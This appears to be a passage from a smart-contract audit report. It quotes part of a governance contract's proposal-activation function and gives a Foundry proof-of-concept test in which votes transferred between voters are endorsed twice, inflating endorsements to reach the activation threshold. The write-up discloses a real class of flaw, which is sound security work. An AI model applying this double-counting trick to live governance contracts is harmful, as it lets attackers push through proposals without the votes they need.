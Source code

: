 ```solidity
        }

        if (proposalHasBeenActivated[proposalId_] == true) {
            revert ProposalAlreadyActivated();
        }

        if (block.timestamp < activeProposal.activationTimestamp + GRACE_PERIOD) {
            revert ActiveProposalNotExpired();
        }

        activeProposal = ActivatedProposal(proposalId_, block.timestamp);

        proposalHasBeenActivated[proposalId_] = true;

        emit ProposalActivated(proposalId_, block.timestamp);
    }
```

### Proof of Concept

Please append the following test in `src\test\policies\Governance.t.sol`. This test will pass to demonstrate the described scenario.

```solidity
    function testScenario_UserEndorsesAfterReceivingTransferredVotes() public {
        _submitProposal();

        vm.prank(voter2);
        governance.endorseProposal(1);

        // to simulate calling gOHM's transfer function by voter2 for sending votes to voter0, VOTES.transferFrom is called by governance here
        vm.prank(address(governance));
        VOTES.transferFrom(voter2, voter0, 200);

        // voter0 uses the votes previously owned by voter2 to endorse the proposal
        vm.prank(voter0);
        governance.endorseProposal(1);

        // the proposal is endorsed with 400 votes but only the 200 votes originally owned by voter2 are used
        assertEq(governance.userEndorsementsForProposal(1, voter0), 200);
        assertEq(governance.userEndorsementsForProposal(1, voter2), 200);
        assertEq(governance.totalEndorsementsForProposal(1), 400);

        // At this moment, the proposal can be activated successfully.
        // However, if it is endorsed with only 200 votes, it cannot satisfy ENDORSEMENT_THRESHOLD and cannot be activated.
        vm.expectEmit(true, true, true, true);
        emit ProposalActivated(1, block.timestamp);

        vm.prank(voter1);
        governance.activateProposal(1);
    }
```
